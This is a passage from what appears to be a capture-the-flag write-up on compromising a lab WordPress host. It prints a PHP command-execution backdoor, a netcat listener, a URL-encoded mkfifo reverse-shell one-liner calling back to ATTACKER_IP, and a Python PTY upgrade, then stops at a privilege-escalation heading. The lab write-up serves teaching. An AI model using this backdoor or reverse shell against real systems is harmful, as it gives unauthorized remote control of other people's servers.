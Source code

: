 **Final Deobfuscated Code**
The final, deobfuscated code revealed a simple but effective RCE backdoor that executes any command passed via the `cmd` GET parameter:

```php
if (isset($_GET["cmd"])) {
    system($_GET["cmd"]);
}
```

### C. Establishing an Interactive Shell

With an RCE vector confirmed, the final step for initial access was to establish a stable, interactive shell.

**Objective**
The objective was to convert the limited RCE capability into a persistent and interactive reverse shell connection.

**Execution**
First, a Netcat listener was started on the attacker machine to catch the incoming connection:

```bash
nc -lvnp 1337
```

Next, a URL was crafted to trigger the backdoor and execute a standard reverse shell one-liner. This command creates a named pipe (`/tmp/f`), redirects input and output, and pipes it into a Netcat connection back to the attacker's IP on port 1337:

```
http://www.smol.thm/wp-admin/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20ATTACKER_IP%201337%20%3E%2Ftmp%2Ff
```

**Shell Stabilization**
Upon successful execution, a connection was received on the listener from the target server, running as the `www-data` user. This initial shell is often basic and non-interactive. To upgrade it to a fully functional TTY with features like tab completion and job control, a standard Python PTY stabilization technique was used:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This sequence demonstrates a crucial escalation in control. The RCE backdoor provides a non-interactive "web shell," the Netcat one-liner provides a persistent TCP connection, and the Python PTY trick upgrades it to a fully functional terminal—essential for subsequent enumeration and privilege escalation.

---

## IV. Phase 3: Multi-Stage Privilege Escalation

Gaining root access required a series of pivots through multiple user accounts, each step uncovering the information needed for the next.
